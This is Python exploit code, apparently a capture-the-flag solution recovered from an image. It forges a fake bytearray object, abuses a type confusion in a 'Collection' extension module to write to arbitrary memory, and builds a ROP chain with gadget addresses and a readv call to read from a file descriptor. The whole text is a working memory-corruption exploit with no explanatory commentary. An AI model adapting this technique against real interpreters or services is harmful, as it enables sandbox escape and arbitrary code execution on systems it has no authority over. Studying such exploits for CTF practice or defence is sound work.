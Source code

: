 ```python
 'f2': b'\xf2',
 'f3': b'\xf3',
 'f4': b'\xf4',
 'f5': b'\xf5',
 'f6': b'\xf6',
 'f7': b'\xf7',
 'f8': b'\xf8',
 'f9': b'\xf9',
 'fa': b'\xfa',
 'fb': b'\xfb',
 'fc': b'\xfc',
 'fd': b'\xfd',
 'fe': b'\xfe',
 'ff': b'\xff'}

def p64(a):
    a=hex(a)[2:].rjust(16,'0')
    li = [a[i:i+2] for i in range(0,16,2)]
    st=b''
    for i in li:
        st+=alp[i]
    return st[::-1]

def fake_bytearray(addr,size):

    payload =  p64(0xffff)
    payload += p64(0x00000000009ce7e0)
    payload += p64(size)
    payload += p64(size+1)
    payload += p64(addr)
    payload += p64(addr)
    payload += p64(0x0)
    return payload

def write(addr,inp):
    payload = fake_bytearray(addr,len(inp))
    payload_addr  = id(payload)
    a = Collection.Collection({"A":1337,"B":[1]})
    b = Collection.Collection({"B":[1],"A":payload_addr + 0x20})
    c = b.get("B")
    for i in range(len(inp)):
        c[i]=inp[i]


target = "\x00" * 0x100
iov=p64(id(target)+0x30)+p64(0x100)

pop_rdi = 0x00421612
pop_rsi = 0x0042110e
pop_rdx = 0x004026c1
pop_rax = 0x00631caf

readv_plt = 0x4208b0
syscall   = 0x0049d6d4

read_payload  = p64(pop_rdi)
read_payload += p64(1023)
read_payload += p64(pop_rsi)
read_payload += p64(id(iov)+0x20)
read_payload += p64(pop_rdx)
read_payload += p64(0x1)
read_payload += p64(readv_plt)

```